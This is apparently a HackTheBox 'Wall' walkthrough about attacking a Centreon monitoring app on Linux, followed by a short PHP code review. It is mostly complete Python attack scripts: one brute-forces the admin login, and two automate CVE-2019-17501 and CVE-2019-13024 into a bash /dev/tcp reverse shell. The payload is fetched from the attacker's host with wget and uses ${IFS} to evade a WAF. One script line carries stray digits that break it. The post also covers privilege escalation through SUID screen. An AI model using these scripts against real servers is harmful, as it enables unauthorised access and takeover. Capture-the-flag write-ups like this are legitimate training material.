

This box was a medium level box from HackTheBox, it's OS was Linux. There is a Centreon app running on port 80, but is only accessible through POST request to /monitoring.

Once you got the Centreon you start the enumeration, found a user 'admin' and password 'password1', then you have two CVEs (CVE-2019-17501 and CVE-2019-13024). Both of them leads you to reverse shell, in different ways. Both of them are described here, with python automated scripts for it.

When you got a www-data shell, you will se a folder in /opt with a hidden .pyc file, when you decompile it with `uncompyle2` you got the password from shelby, then you log in ssh.

With a shelby shell you got screen 4.5.0 with SUID enabled, you explore it and got root!

In the end I show you how to do a code ananlysis in centreon app, which is a php one.

Hope you enjoy it.

# Diagram

Here is the diagram for this machine. It's a resume from it.



# Enumeration

First step is to enumerate the box. For this we'll use `nmap`

```sh
nmap -sV -sC -Pn 10.10.10.157
```

> -sV - Services running on the ports

> -sC - Run some standart scripts

> -Pn - Consider the host alive


## Port 80

Once we found just the port 80 opened, so let's focus on this one to enumerate it.

We open it on the browser and see what is being shown.


We run `Gobuster` to enumerate it

`Wfuzz` did not show a good result in handle this web app

```sh
gobuster dir -u http://10.10.10.157 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt
```


We found two interesting php files and one path

### PHP Files

Now we access the php files to see them


Nothing useful seeing for the first time. We try to bruteforce it for params we did not find anything useful

### /monitoring

When accessing it, we got a prompt for User and Password


We try to send a POST Request, and get a different result

```sh
curl -X POST http://10.10.10.157/monitoring/
```


It redirects to `/centreon/`

We access and see it


### Brute Force User

I looked for exploits on the internet, found two interesting but it's authenticated, [CVE-2019-13024](https://github.com/mhaskar/CVE-2019-13024) and [CVE-2019-17501](https://gist.github.com/sinfulz/ef49270e245df050af59cc3dd3eefa6b). So, let's get credentials for this application, so we can exploit it. We found another way to get reverse shell, we'll do both ways.

For this we will use a Python Script and try to bruteforce the admin credentials, the first thing to do is to see how the authentication mechanins works, if there is some kind of token, and whatelse.


`useralias=admin&password=senha&submitLogin=Connect&centreon_token=31e1b6427fea7535b0922f6b7f582308`

We see

> useralias = admin

> password = senha

> Login = Correct

> centreon_token = ....

That's the parameters we must send to the application in order to try to get the creds.

So, we'll start with our python skeleton

```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-u', '--username', help='Username to target', required=False)
    parser.add_argument('-w', '--wordlist', help='Wordlist to be used', required=False)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```


```sh
python3 brute_centreon.py -t 10.10.10.157 -u admin -w list.txt
```


```py
#!/usr/bin/python3
# Date: 2021-09-08
# Exploit Author: 0x4rt3mis
# Hack The Box - Wall
# User Brute Force Centreon

import argparse
import requests
import sys
import os

''' Setting up something important '''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# First, we need to get the Centreon Token
def getCentToken(rhost):
    # Build the url
    login_url = 'http://' + rhost + '/centreon/'
    # Make cent_token global
    global cent_token
    # Make the request to get cent token
    cent_page = r.get(login_url, verify=False, proxies=proxies)
    # Get the index of the page, search for centron_token in it
    index = cent_page.text.find("centreon_token")
    # Get only the centreon_token in it
    cent_token = cent_page.text[index:index+128].split('"')[4]
    if cent_token:
        print("[+] We got the Cent Token [+]")
        return cent_token
    else:
        print("[+] Cannot get the Cent Token [+]")
        exit

# Now we make the login requests
def loginRequest(rhost,wordlist,username):
    # Let the login url
    login_url = 'http://' + rhost + '/centreon/'
    # Let's iterate trough the wordlist
    file = open(wordlist, "r")
    iter = 0
    for line in file:
        # Get the cent_token for each request
        getCentToken(rhost)
        # Set the proper http request
        line = line.strip()
        headers = {"Content-Type": "application/x-www-form-urlencoded"}
        data = {"useralias": "%s" %username, "password": "%s" %line, "submitLogin": "Connect", "centreon_token": "%s" %cent_token}
        login = r.post(login_url, headers=headers, cookies=r.cookies, data=data, proxies=proxies)
        if "incorrect" in login.text:
            iter = iter + 1
            os.system('clear')
            print()
            print("[+] Trying %s:%s" %(username,line))
            print("[+] Wrong Password - Attempt Number: %s [+]" %iter, flush=True)
        else:
            os.system('clear')
            print()
            print("[+] Trying %s:%s" %(username,line))
            print("[+] Password FOUND!!!!!")
            print("[+] Attempt number: %s" %iter)
            print("[+] Username: %s and Password: %s" %(username,line))
            print()
            break

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-u', '--username', help='Username to target', required=True)
    parser.add_argument('-w', '--wordlist', help='Wordlist to be used', required=True)
    args = parser.parse_args()

    rhost = args.target
    username = args.username
    wordlist = args.wordlist

    '''Here we call the functions'''
    loginRequest(rhost,wordlist,username)
if __name__ == '__main__':
    main()
```

And we got the password for the admin user, which is `password1`

# RCE - CVE-2019-17501

Now, let's hunt rce on the app.

We go to `Configuration -> Commands -> Discovery`


Edit a command, and click the `Blue Button`


And we got the RCE


Now, let's get a automated reverse shell, we'll use as base the script we used to brute force the password.

```sh
python3 brute_centreon.py -t 10.10.10.157 -u admin -w list.txt -ip 10.10.14.20 -p 448
```


user_brute_force.py

```py
#!/usr/bin/python3
# Date: 2021-09-08
# Exploit Author: 0x4rt3mis
# Hack The Box - Wall
# Reverse Shell Centreon
# CVE-2019-17501

import argparse
import requests
import sys
import os
import urllib.parse
import socket, telnetlib
from threading import Thread
import threading                     
import http.server                                  
import socket                                   
from http.server import HTTPServer, SimpleHTTPRequestHandler

''' Setting up something important '''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Setting the python web server
def webServer():
    debug = True                                    
    server = http.server.ThreadingHTTPServer(('0.0.0.0', 80), SimpleHTTPRequestHandler)
    if debug:                                                                                                                                
        print("[+] Starting Web Server in background [+]")
        thread = threading.Thread(target = server.serve_forever)
        thread.daemon = True                                                                                 
        thread.start()                                                                                       
    else:                                               
        print("Starting Server")
        print('Starting server at http://{}:{}'.format('0.0.0.0', 80))
        server.serve_forever()

# Setar o handler
def handler(lport,rhost):
    print("[+] Starting handler on %s [+]" %lport) 
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %rhost) 
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()
    
# First, we need to get the Centreon Token
def getCentToken(rhost):
    # Build the url
    login_url = 'http://' + rhost + '/centreon/'
    # Make cent_token global
    global cent_token
    # Make the request to get cent token
    cent_page = r.get(login_url, verify=False, proxies=proxies)
    # Get the index of the page, search for centron_token in it
    index = cent_page.text.find("centreon_token")
    # Get only the centreon_token in it
    cent_token = cent_page.text[index:index+128].split('"')[4]
    if cent_token:
        return cent_token
    else:
        print("[+] Cannot get the Cent Token [+]")04642281150

# Now we make the login requests
def loginRequest(rhost,wordlist,username):
    # Let the login url
    login_url = 'http://' + rhost + '/centreon/'
    # Let's iterate trough the wordlist
    file = open(wordlist, "r")
    iter = 0
    for line in file:
        # Get the cent_token for each request
        getCentToken(rhost)
        # Set the proper http request
        line = line.strip()
        headers = {"Content-Type": "application/x-www-form-urlencoded"}
        data = {"useralias": "%s" %username, "password": "%s" %line, "submitLogin": "Connect", "centreon_token": "%s" %cent_token}
        login = r.post(login_url, headers=headers, cookies=r.cookies, data=data, proxies=proxies)
        if "incorrect" in login.text:
            iter = iter + 1
            os.system('clear')
            print()
            print("[+] Trying %s:%s" %(username,line))
            print("[+] Wrong Password - Attempt Number: %s [+]" %iter, flush=True)
        else:
            os.system('clear')
            print()
            print("[+] Trying %s:%s" %(username,line))
            print("[+] Password FOUND!!!!!")
            print("[+] Attempt number: %s" %iter)
            print("[+] Username: %s and Password: %s [+]" %(username,line))
            print("[+] Now, let's get RCE!!! [+]")
            break

def mountPayload(lhost,lport):
    print("[+] Let's mount the Payload!!! [+]")
    reverse = "bash -i >& /dev/tcp/%s/%s 0>&1" %(lhost,lport)
    f = open("payload.txt", "a")
    f.write(reverse)
    f.close()
    print("[+] Payload wrote to payload.txt[+]")

def uploadMalicious(rhost,lhost):
    payload = "wget %s/payload.txt -O /tmp/payload.sh" %lhost
    urllib.parse.quote(payload, safe='')
    url = "http://%s:80/centreon/main.get.php?p=60801&command_hostaddress=&command_example=&command_line=%s&o=p&min=1" %(rhost,payload)
    headers = {"Upgrade-Insecure-Requests": "1"}
    r.get(url, headers=headers, cookies=r.cookies, proxies=proxies)
    os.system("rm payload.txt")
    
def reverseShell(rhost):
    print("[+] Now Let's Get The Reverse Shell!!!! [+]")
    payload = "bash /tmp/payload.sh"
    urllib.parse.quote(payload, safe='')
    url = "http://%s:80/centreon/main.get.php?p=60801&command_hostaddress=&command_example=&command_line=%s&o=p&min=1" %(rhost,payload)
    headers = {"Upgrade-Insecure-Requests": "1"}
    r.get(url, headers=headers, cookies=r.cookies, proxies=proxies)
    

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-u', '--username', help='Username to target', required=True)
    parser.add_argument('-w', '--wordlist', help='Wordlist to be used', required=True)
    parser.add_argument('-ip', '--ip', help='IP to receive the reverse shell', required=True)
    parser.add_argument('-p', '--port', help='Port to receive the reverse shell', required=True)
    args = parser.parse_args()

    rhost = args.target
    username = args.username
    wordlist = args.wordlist
    lhost = args.ip
    lport = args.port

    '''Here we call the functions'''
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Set up the web server
    webServer()
    # Let's bruteforce the user
    loginRequest(rhost,wordlist,username)
    # Let's mount the payload
    mountPayload(lhost,lport)
    # Let's download it to the server
    uploadMalicious(rhost,lhost)
    # Let's trigger it
    reverseShell(rhost)
    

if __name__ == '__main__':
    main()
```

That was the way from CVE-2019-17501 we got a reverse shell. Now let's change our approach to get another reverse shell on this box exploring other CVE.

# RCE - CVE-2019-13024

Now let's work on the other CVE that we got on this box. It's another approach.


other_centreon.py

```py
#!/usr/bin/python3
# Date: 2021-09-08
# Exploit Author: 0x4rt3mis
# Hack The Box - Wall
# Reverse Shell Centreon
# CVE-2019-13024
# https://github.com/mhaskar/CVE-2019-13024/blob/master/Centreon-exploit.py

import argparse
import requests
import sys
import os
import urllib.parse
import socket, telnetlib
from threading import Thread
import threading                     
import http.server                                  
import socket                                   
from http.server import HTTPServer, SimpleHTTPRequestHandler

''' Setting up something important '''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Setting the python web server
def webServer():
    debug = True                                    
    server = http.server.ThreadingHTTPServer(('0.0.0.0', 80), SimpleHTTPRequestHandler)
    if debug:                                                                                                                                
        print("[+] Starting Web Server in background [+]")
        thread = threading.Thread(target = server.serve_forever)
        thread.daemon = True                                                                                 
        thread.start()                                                                                       
    else:                                               
        print("Starting Server")
        print('Starting server at http://{}:{}'.format('0.0.0.0', 80))
        server.serve_forever()

# Setar o handler
def handler(lport,rhost):
    print("[+] Starting handler on %s [+]" %lport) 
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %rhost) 
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()
    
# First, we need to get the Centreon Token
def getCentToken(login_url):
    # Build the url
    # Make cent_token global
    global cent_token
    # Make the request to get cent token
    cent_page = r.get(login_url, verify=False, proxies=proxies)
    # Get the index of the page, search for centron_token in it
    index = cent_page.text.find("centreon_token")
    # Get only the centreon_token in it
    cent_token = cent_page.text[index:index+128].split('"')[4]
    if cent_token:
        return cent_token
    else:
        print("[+] Cannot get the Cent Token [+]")
        exit

# Now we make the login requests
def loginRequest(rhost,wordlist,username):
    # Let the login url
    login_url = 'http://' + rhost + '/centreon/'
    # Let's iterate trough the wordlist
    file = open(wordlist, "r")
    iter = 0
    for line in file:
        # Get the cent_token for each request
        getCentToken(login_url)
        # Set the proper http request
        line = line.strip()
        headers = {"Content-Type": "application/x-www-form-urlencoded"}
        data = {"useralias": "%s" %username, "password": "%s" %line, "submitLogin": "Connect", "centreon_token": "%s" %cent_token}
        login = r.post(login_url, headers=headers, cookies=r.cookies, data=data, proxies=proxies)
        if "incorrect" in login.text:
            iter = iter + 1
            os.system('clear')
            print()
            print("[+] Trying %s:%s" %(username,line))
            print("[+] Wrong Password - Attempt Number: %s [+]" %iter, flush=True)
        else:
            os.system('clear')
            print()
            print("[+] Trying %s:%s" %(username,line))
            print("[+] Password FOUND!!!!!")
            print("[+] Attempt number: %s" %iter)
            print("[+] Username: %s and Password: %s [+]" %(username,line))
            print("[+] Now, let's get RCE!!! [+]")
            break

def mountPayload(lhost,lport):
    print("[+] Let's mount the Payload!!! [+]")
    reverse = "bash -i >& /dev/tcp/%s/%s 0>&1" %(lhost,lport)
    f = open("payload.txt", "a")
    f.write(reverse)
    f.close()
    print("[+] Payload wrote to payload.txt[+]")

def uploadMalicious(rhost,lhost,payload):
    urllib.parse.quote(payload, safe='')
    login_url = 'http://' + rhost + '/centreon/main.get.php?p=60901'
    getCentToken(login_url)
    data = {         
        "name": "Central",
        "ns_ip_address": "127.0.0.1",
        "localhost[localhost]": "1",
        "is_default[is_default]": "0",
        "remote_id": "",
        "ssh_port": "22",
        "init_script": "centengine",
        "nagios_bin": "%s" %payload, 
        "nagiostats_bin": "/usr/sbin/centenginestats",
        "nagios_perfdata": "/var/log/centreon-engine/service-perfdata",
        "centreonbroker_cfg_path": "/etc/centreon-broker",
        "centreonbroker_module_path": "/usr/share/centreon/lib/centreon-broker",
        "centreonbroker_logs_path": "",
        "centreonconnector_path": "/usr/lib64/centreon-connector",
        "init_script_centreontrapd": "centreontrapd",
        "snmp_trapd_path_conf": "/etc/snmp/centreon_traps/",
        "ns_activate[ns_activate]": "1",
        "submitC": "Save",
        "id": "1",
        "o": "c",
        "centreon_token": "%s" %cent_token}
    url = "http://%s:80/centreon/main.get.php?p=60901" %rhost
    headers = {"Upgrade-Insecure-Requests": "1", "Content-Type": "application/x-www-form-urlencoded"}
    r.post(url, headers=headers, cookies=r.cookies, data=data, proxies=proxies)
    
    # Download to the server
    url = "http://%s:80/centreon/include/configuration/configGenerate/xml/generateFiles.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded; charset=UTF-8"}
    data = {"poller": "1", "debug": "true", "generate": "true"}
    r.post(url, headers=headers, cookies=r.cookies, data=data, proxies=proxies)
    os.system("rm payload.txt")
    
def reverseShell(lhost,rhost):
    print("[+] Now Let's Get The Reverse Shell!!!! [+]")
    payload = "bash${IFS}/tmp/shell.sh"
    uploadMalicious(rhost,lhost,payload)
    # Trigger it
    url = "http://%s:80/centreon/include/configuration/configGenerate/xml/generateFiles.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded; charset=UTF-8"}
    data = {"poller": "1", "debug": "true", "generate": "true"}
    r.post(url, headers=headers, cookies=r.cookies, data=data, proxies=proxies)

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-u', '--username', help='Username to target', required=True)
    parser.add_argument('-w', '--wordlist', help='Wordlist to be used', required=True)
    parser.add_argument('-ip', '--ip', help='IP to receive the reverse shell', required=True)
    parser.add_argument('-p', '--port', help='Port to receive the reverse shell', required=True)
    args = parser.parse_args()

    rhost = args.target
    username = args.username
    wordlist = args.wordlist
    lhost = args.ip
    lport = args.port

    '''Here we call the functions'''
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Set up the web server
    webServer()
    # Let's bruteforce the user
    loginRequest(rhost,wordlist,username)
    # Let's mount the payload
    mountPayload(lhost,lport)
    # Let's download it to the server
    payload = "wget${IFS}%s/payload.txt${IFS}-O${IFS}/tmp/shell.sh" %lhost
    uploadMalicious(rhost,lhost,payload)
    # Let's trigger it
    reverseShell(lhost,rhost)

if __name__ == '__main__':
    main()
```

Got it!

# www-data -> Shelby

Now let's start our privilege escalation on this box.

On the `/opt` folder we get a hidden folder with a `.pyc` file. Which is a python byte-compiled file.


We install uncompyle2

[Uncompyle2](https://github.com/wibiti/uncompyle2)

And run on it


backup.py

```py
# 2021.09.17 15:01:22 EDT
username = 'shelby'
password = ''
password += chr(ord('S'))
password += chr(ord('h'))
password += chr(ord('e'))
password += chr(ord('l'))
password += chr(ord('b'))
password += chr(ord('y'))
password += chr(ord('P'))
password += chr(ord('a'))
password += chr(ord('s'))
password += chr(ord('s'))
password += chr(ord('w'))
password += chr(ord('@'))
password += chr(ord('r'))
password += chr(ord('d'))
password += chr(ord('I'))
password += chr(ord('s'))
password += chr(ord('S'))
password += chr(ord('t'))
password += chr(ord('r'))
password += chr(ord('o'))
password += chr(ord('n'))
password += chr(ord('g'))
password += chr(ord('!'))
print(username + ":" + password)
print '[+] Done !'
```


shelby:ShelbyPassw@rdIsStrong!

Now we log in the ssh session


# shelby --> root

Now, let's become root.

We run [LinPeas](https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/linPEAS/linpeas.sh)


We find a `screen` with `SUID`


So, let's explore it


Now we got root


# Code Analysis

Now let's start a simple code analysis to better understant the vulns we had explored.

## Monitoring

We see the "magic" that redirect us to /centreon when POST to /monitoring

It's the .htaccess page that defines the restrictions. It only has a limit on GET requests, not POST, which is why the POST request goes through.


## WAF

Is interesting we look for the WAF we have on this box.

[ModSecurity](https://github.com/SpiderLabs/ModSecurity) is an open source WAF. In this case, it's loaded into apache. Configuration files for enabled apache modules are in /etc/apache2/mods-enabled/:


Here we see that the words, `nc, ncat, passwd, #, +, and hostname` are being block on the `REQUEST_BODY`

## Source Code Analysis

Now, if we are in a whitebox approach, how can we find theses vulns?

### GPR

Every GET, POST or REQUEST that the user can made on the server.

First, it's important to look for all the REQUESTS that the user can put on the server, all the places where the users can interact with the application

```sh
grep -n -R -i '$_[GPR].*\[' .
```


If there are too many points to see, we can start greping for something more specific.

### Dangerous Functions

We can start looking for `Dangerous Function` also

Start looking for it and see with any user input can lead me to that

**exec, shell_exec, system, passthru, eval, popen**

If we don't find it, we can start looking for other functions

**unserialize, include, file_put_contents**

I like to look for `$_COOKIE | if`, cookies with if logic.

So, we start looking for some key functions to look at

```sh
grep -R -i 'shell_exec\|passtrhu\|popen'
```


We should start looking for each one of them, once the `shell_exec` function is very important

We will take a look on two files

`include/configuration/configObject/traps-mibs/formMibs.php`

and 

`include/configuration/configGenerate/xml/generateFiles.php`

The second one we you analize first, it was the one the just exploited

```sh
cat include/configuration/configGenerate/xml/generateFiles.php  -n | grep shell_exec -A22 -B22
```

Let's see what is happening here


We see on line 189 the start of the function printDebug, which is interesting because it's a debug statement.

If we see there on the web page, we see where probably it's going to be called. It's on the Run monitoring engine debug. That's what this option is being triggered there.


But it's not the only thing we can get from this code.

If we look at line 210 - 214, we see that it's excuting the $nagios_bin variable, which is under my control, because it's the param nagios_bin, which we saw that is vulnerable.


So, the code we put there is going to be executed by the function shell_exec. That's why we needed the semicolon on the end, to executed the command after the nagios_bin variable.

Now, let's get a look on the other archive

```sh
cat include/configuration/configObject/traps-mibs/formMibs.php -n | grep shell_exec -A18 -B26
```


This part is alreay fixed by the PR 8023 on the centreon github page.

But that's ok, we see how we can start doing some code analysis in PHP.